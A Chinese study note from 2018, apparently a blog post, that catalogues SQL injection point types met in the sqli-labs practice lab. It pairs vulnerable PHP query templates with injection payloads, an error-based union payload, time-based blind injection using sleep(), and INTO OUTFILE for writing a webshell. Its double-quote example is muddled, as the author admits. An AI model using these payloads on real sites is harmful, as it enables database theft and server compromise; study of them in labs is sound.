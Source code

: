```yaml
---
title: 注入点类型
---
```

date: 2018.11.16
---
好不容易搭建好了sqli-labs,做一做，让我发现很多的不足，原来我对注入点的类型一知半解（可怕！！！）
下面边做边总结遇到的类型：
①我最熟悉，且之前仅知道的一种情况：单引号类型
	具体如下：$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
	构造方法：?id=1’%23
	
②纯数值:
	具体如下：$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
	构造方法：?id=1%23
	
③用括号括起来：
	具体如下：$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";  
	构造方法：?id=1')%23
	
④双引号：
	具体如下：$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";  
	构造方法：?id=1")%23
	说明：因为双引号可以包含单引号，所以此时用单引号不会报错
		另外这个双引号与之前哪个对应？这点我很迷，难道是表示字符串的那个？
		
⑤双注入：
	具体说明见：https://www.2cto.com/article/201303/192718.html
	固定模式：?id=-1' union select count(*),2,concat((select database()),floor(rand()*2))as a from information_schema.tables group by a%23
	问题：1.这里怎么知道是双注入。
		 2.这里怎么知道union的注入点在哪？
	
	
⑥信息导出到外部文件：
	模式：select A into outfile B		其中A可以写马，B是文件路径及文件名
	
	
⑦布尔盲注以及时间盲注：
	 布尔：通过界面返回的正确与否判断
	 时间：通过延迟判断，一般用到if()		eg：if（length(database())>999999,0,sleep(5)）
	
	
⑧引号包装：
	 具体如下：$uname='"'.$uname.'"';
	 注意这里使用双引号把$uname包装了，注入类型变为了双引号
	 
	 
⑨
